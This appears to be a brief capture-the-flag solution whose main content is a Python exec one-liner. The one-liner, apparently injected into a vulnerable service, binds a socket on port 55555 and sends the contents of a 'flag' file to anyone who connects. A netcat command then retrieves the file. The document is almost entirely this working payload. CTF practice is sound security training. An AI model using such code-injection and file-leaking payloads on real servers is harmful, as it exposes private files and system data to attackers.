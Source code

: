 # Solution

exec('import socket; s = socket.socket(); s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1); s.bind(("0.0.0.0", 55555)); s.listen(1); c = s.accept()[0]; c.send(open("flag", "rb").read())')

then connect to server via netcat: "nc host 55555". It will send us a flag.
